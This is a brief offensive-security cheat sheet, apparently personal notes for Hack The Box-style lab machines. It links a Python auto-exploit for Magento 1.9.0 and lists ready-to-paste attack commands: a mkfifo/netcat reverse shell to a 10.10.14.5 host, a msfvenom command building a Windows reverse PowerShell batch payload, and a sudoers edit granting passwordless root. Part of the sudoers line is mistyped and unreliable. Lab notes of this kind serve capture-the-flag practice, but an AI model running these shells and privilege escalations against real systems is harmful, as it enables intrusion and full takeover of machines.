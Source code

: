 **Magento 1.9.0**
[Python3 auto exploit](https://raw.githubusercontent.com/epi052/htb-scripts-for-retired-boxes/master/swagshop/magento-oneshot.py)








<center><h1>Shells</h1></center>


```bash
# Mostly works

rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.5 80 >/tmp/f

Or use +,$IFC for spaces in the paylod


# .bat msf
msfvenom -p cmd/windows/reverse_powershell lhost=10.2.0.5 lport=4444 > shell.bat

# suoders magic
echo 'chmod 777 /etc/suoders && echo "user ALL=NOPASSWD: ALL" >> /etc/sudoers && chmod 440 /etc/sudoers' > /tmp/shell 
sudo su # will get root
```